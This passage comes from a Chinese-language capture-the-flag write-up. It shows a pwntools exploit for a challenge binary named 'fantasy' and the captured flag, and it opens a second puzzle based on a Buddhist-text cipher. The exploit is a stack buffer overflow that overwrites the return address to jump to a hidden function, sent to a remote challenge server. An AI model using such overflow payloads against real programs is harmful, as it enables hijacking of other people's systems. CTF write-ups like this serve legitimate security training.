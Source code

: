 ```
0048| 
0056| 0xdeadbeef
0064| fantasy_addr 
```

### 0x06：exp:

```
#coding:utf8
from pwn import *
conn=process('./fantasy')
conn=remote('183.129.189.60','10025')

payload='a'*0x30+p64(0xdeadbeef)+p64(0x400735)

conn.sendline(payload)

conn.interactive() 
```

python 跑下便可以拿到flag

```
python fantasy.py

GXY{Welcome_to_Binary_world} 
```

![](img/fa2420c14004bb6a29723682e3931e6a.png)

### 0x07：fu

看题目联想到了  与佛论禅！
下载得到的是一个压缩包，里面有一个图片和一个加密的fo.txt文本，如下图：

![](img/a2933b3839e7485a556a5d7618b6f753.png)

